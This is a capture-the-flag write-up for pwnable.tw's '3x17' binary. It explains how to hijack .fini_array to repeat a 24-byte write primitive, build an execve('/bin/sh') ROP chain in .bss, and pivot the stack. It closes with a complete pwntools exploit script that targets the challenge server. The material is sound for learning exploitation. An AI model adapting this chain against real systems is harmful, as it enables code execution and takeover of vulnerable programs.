





Challenge: [3x17 on pwnable.tw](https://pwnable.tw/)

## Initial analysis

First, the file information and checksec output:



The program itself is quite simple: its main logic lets us write up to `0x18` bytes to an address we supply. That gives us a limited *write-what-where* primitive, provided the destination is writable.



`sub_40EE80` appears to be `strtoll`, based on its behavior with numeric input. It converts the address we enter into an integer.

## Repeating the write primitive

A single 24-byte write isn't enough for the `execve` ROP chain we're building, and we also need somewhere to store `/bin/sh`. We need a way to repeat the primitive before giving control to the chain.

The challenge name, `3x17`, reads like "exit" in leetspeak. Nice hint. Looking into program finalization leads us to two interesting ELF sections: `.fini` and `.fini_array`.

### Understanding .fini_array

`.fini` contains cleanup code, while `.fini_array` contains pointers to functions called during normal program termination. The finalization routine walks that array in reverse order: the last entry is called first.

The exact cleanup path depends on the runtime and how the executable was linked. Functions registered through `__cxa_atexit` are another part of normal exit handling. For this exploit, the useful part is the routine in the binary that calls the `.fini_array` entries.

For reference, glibc's static-executable cleanup implementation walks `.fini_array` backward and then calls `_fini`. The exact instructions in this challenge still need to be understood from its own disassembly.



The section flags show that `.fini` isn't marked writable, while `.fini_array` is. For exploitation, the important condition is that the array is writable at runtime, not just that its ELF section has the `W` flag.



The original array contains two entries:

| Address | Offset | Value |
| --- | --- | --- |
| `0x4b40f0` | `+0x00` | `0x401b00` |
| `0x4b40f8` | `+0x08` | `0x401580` |

The plan is to overwrite those entries, repeat the write primitive, place our ROP chain in `.bss`, and finally pivot the stack there.

We use `0x402960` as the finalization routine and `0x401b6d` as `main`. Our first overwrite produces this layout:

| Address | New value | Purpose |
| --- | --- | --- |
| `0x4b40f0` | `0x402960` | Re-enter the finalization routine |
| `0x4b40f8` | `0x401b6d` | Call `main` again |

Because the array is traversed backward, `main` runs first. When it returns, the routine calls entry zero, which re-enters finalization and starts the sequence again. We now have a loop xD

### Handling the counter

There's one more detail: `main` checks a counter before allowing another write.



The counter at `0x4b9330` is one byte wide. Repeated increments wrap around modulo 256, eventually bringing its value back to `1` and allowing the primitive again.

So we don't get a write on every call to `main`, but the finalization loop keeps calling it until the counter reaches the required value. That lets us keep supplying chunks of our payload.

## Building the ROP chain

These are the gadgets and addresses used in the exploit:

```text
0x401c4b : leave ; ret
0x402ba9 : pop rsp ; ret
0x406c30 : pop rsi ; ret
0x401696 : pop rdi ; ret
0x446e35 : pop rdx ; ret
0x41e4af : pop rax ; ret
0x4022b4 : syscall

0x401b6d : main
0x4b40f0 : .fini_array
0x402960 : finalization routine
```

We write `/bin/sh\x00` at the start of `.bss`, then place the chain immediately after it. The intended syscall register state is:

| Register | Value |
| --- | --- |
| `rax` | `59`, the Linux x86-64 syscall number for `execve` |
| `rdi` | Address of `/bin/sh\x00` |
| `rsi` | `0` |
| `rdx` | `0` |

The resulting layout is:

| Offset from `.bss` | Value | Purpose |
| --- | --- | --- |
| `+0x00` | `/bin/sh\x00` | Command string |
| `+0x08` | `0x401696` | `pop rdi ; ret` |
| `+0x10` | `.bss` | Pointer to the command string |
| `+0x18` | `0x406c30` | `pop rsi ; ret` |
| `+0x20` | `0` | `rsi` value |
| `+0x28` | `0x446e35` | `pop rdx ; ret` |
| `+0x30` | `0` | `rdx` value |
| `+0x38` | `0x41e4af` | `pop rax ; ret` |
| `+0x40` | `59` | `rax` value |
| `+0x48` | `0x4022b4` | `syscall` |

The helper in the exploit splits writes into chunks of at most 24 bytes. The loop gives us enough opportunities to populate this region before triggering the pivot.

## Pivoting the stack

Once the chain is ready, we replace the loop with a final 24-byte payload:

| Address | Value | Purpose |
| --- | --- | --- |
| `0x4b40f0` | `0x401c4b` | `leave ; ret` |
| `0x4b40f8` | `0x402ba9` | `pop rsp ; ret` |
| `0x4b4100` | `.bss + 8` | New stack address |

Notice that the last word is **outside the original two-entry `.fini_array`**. It is adjacent payload data for the pivot, not a third finalizer. This write therefore also relies on the eight bytes immediately after the array being writable and safe to overwrite at this point.

The GDB state below shows the useful setup: `rbp` points to `.fini_array`. This is specific to the finalization routine's state at the pivot; it isn't a property guaranteed by `.fini_array` itself.


Starting from that state, the gadgets work as follows:

1. `leave` sets `rsp = rbp`, so `rsp` points to `0x4b40f0`. It then pops the first word into `rbp`, leaving `rsp = 0x4b40f8`.
2. `ret` takes `0x402ba9` from that address, transferring control to `pop rsp ; ret`. The next stack word is now at `0x4b4100`.
3. `pop rsp` loads `.bss + 8` from that word, moving the stack to our chain.
4. The following `ret` takes the first gadget, `pop rdi ; ret`, from `.bss + 8`.

From there, the chain sets up the registers and executes the syscall. The `+8` matters because the first eight bytes of `.bss` hold `/bin/sh\x00`, not a gadget address.

## Full exploit

```python
from pwn import *

elf = ELF("./3x17")

context.binary = elf
context.terminal = "kitty @ launch --location=vsplit --cwd=current".split()
context.log_level = 'debug'

def conn():
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10105)
    else:
        if args.GDB:
            p = gdb.debug([elf.path], aslr=True, api=False, gdbscript="""
                b *0x401b6d
                """)
        else:
            p = process([elf.path])

    return p

def write_payload(p, address, data):
    for i in range(0, len(data), 24):
        chunk = data[i:i+24]
        real_addr = address + i

        p.sendafter(b"addr:", str(real_addr).encode())
        p.sendafter(b"data:", chunk)

def main():
    p = conn()

    # pwn it
    leave_ret = 0x0000000000401c4b # leave ; ret
    pop_rsp = 0x0000000000402ba9 # pop rsp ; ret
    pop_rsi = 0x0000000000406c30 # pop rsi ; ret
    pop_rdi = 0x0000000000401696 # pop rdi ; ret
    pop_rdx = 0x0000000000446e35 # pop rdx ; ret
    pop_rax = 0x000000000041e4af # pop rax ; ret
    syscall = 0x00000000004022b4 # syscall
    main = 0x0000000000401B6D

    fini_array = 0x004b40f0
    destructor_routine = 0x402960

    payload = p64(destructor_routine)
    payload += p64(main)

    write_payload(p, fini_array, payload)

    target = elf.bss()

    write_payload(p, target, b"/bin/sh\x00".ljust(24, b"\x00"))

    target += 8

    payload = p64(pop_rdi)
    payload += p64(elf.bss())
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(pop_rax)
    payload += p64(59)
    payload += p64(syscall)

    write_payload(p, target, payload)

    payload = p64(leave_ret)
    payload += p64(pop_rsp)
    payload += p64(target)

    write_payload(p, fini_array, payload)

    p.interactive()

if __name__ == '__main__':
    main()
```

## References

- [glibc program startup and static-executable finalization](https://codebrowser.dev/glibc/glibc/csu/libc-start.c.html) — background on finalization; this source version is not an identification of the challenge binary's libc.
- [glibc exit-handler implementation](https://codebrowser.dev/glibc/glibc/stdlib/exit.c.html)
